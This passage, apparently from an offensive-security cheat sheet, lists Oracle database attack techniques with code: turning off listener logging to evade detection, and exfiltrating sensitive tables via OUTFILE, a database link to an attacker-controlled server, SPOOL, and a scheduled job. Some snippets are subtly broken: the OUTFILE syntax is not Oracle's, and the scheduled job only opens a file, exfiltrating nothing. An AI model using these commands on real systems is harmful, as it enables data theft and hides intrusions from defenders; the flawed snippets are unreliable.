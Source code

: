 #### Modifying Listener Logging

*   **Tool:** \[\[lsnrctl]]

    ```bash
    lsnrctl set log_status off
    ```
* **Description:** Disable Listener logging to avoid detection during an attack.

### Data Exfiltration

#### Exfiltrating Data via SQL Net

*   **Tool:** SQL Plus

    ```sql
    SELECT * FROM sensitive_table INTO OUTFILE '/tmp/exfiltrated_data.txt';
    ```
* **Description:** Exfiltrate sensitive data from the Oracle database by exporting it to a file or over the SQL Net connection.

#### Using Database Links for Exfiltration

*   **Tool:** SQL Plus

    ```sql
    INSERT INTO remote_table@exfil_link SELECT * FROM sensitive_table;
    ```
* **Description:** Transfer sensitive data from one Oracle database to another controlled by the attacker using database links.

#### Exfiltrating Data via SQL Net

*   **Tool:** \[\[SQL Plus]]

    ```sql
    SPOOL '/tmp/data.txt';
    SELECT * FROM sensitive_table;
    SPOOL OFF;
    ```
* **Description:** Extract data from the database and save it to a file on the server.

#### Using Oracle Jobs for Data Exfiltration

*   **Tool:** \[\[SQL Plus]]

    ```sql
    BEGIN
      DBMS_SCHEDULER.create_job (
        job_name => 'exfil_job',
        job_type => 'PLSQL_BLOCK',
        job_action => 'BEGIN UTL_FILE.FOPEN(''/tmp'', ''data.txt'', ''W''); END;',
        start_date => SYSTIMESTAMP,
        repeat_interval => 'FREQ=HOURLY;INTERVAL=1',
        enabled => TRUE
      );
    END;
    /
    ```
* **Description:** Set up a scheduled job to periodically exfiltrate data from the database.
